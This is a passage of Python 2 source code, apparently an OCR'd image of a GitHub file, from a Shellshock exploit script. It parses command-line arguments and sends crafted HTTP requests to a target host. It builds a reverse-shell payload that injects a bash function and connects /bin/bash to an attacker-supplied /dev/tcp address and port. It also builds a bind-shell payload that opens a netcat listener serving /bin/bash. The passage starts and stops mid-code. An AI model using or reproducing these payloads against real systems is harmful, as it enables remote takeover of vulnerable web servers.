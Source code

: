             res = c.getresponse()

        else:

            c = httplib.HTTPConnection(rhost)

            c.request("GET",page,headers=headers)

            res = c.getresponse()

        if res.status == 404:

            now = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")

            print str(now) + " [x][INFO] 404 on : "+page

        time.sleep(1)

        



args = {}

    

for arg in sys.argv[1:]:

    ar = arg.split("=")

    args[ar[0]] = ar[1]

try:

    args['payload']

except:

    usage()

    

if args['payload'] == 'reverse':

    try:

        lhost = args['lhost']

        lport = int(args['lport'])

        rhost = args['rhost']

        payload = "() { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/"+lhost+"/"+str(lport)+" 0>&1 &"

    except:

        usage()

elif args['payload'] == 'bind':

    try:

        rhost = args['rhost']

        rport = args['rport']

        payload = "() { :;}; /bin/bash -c 'nc -l -p "+rport+" -e /bin/bash &'"
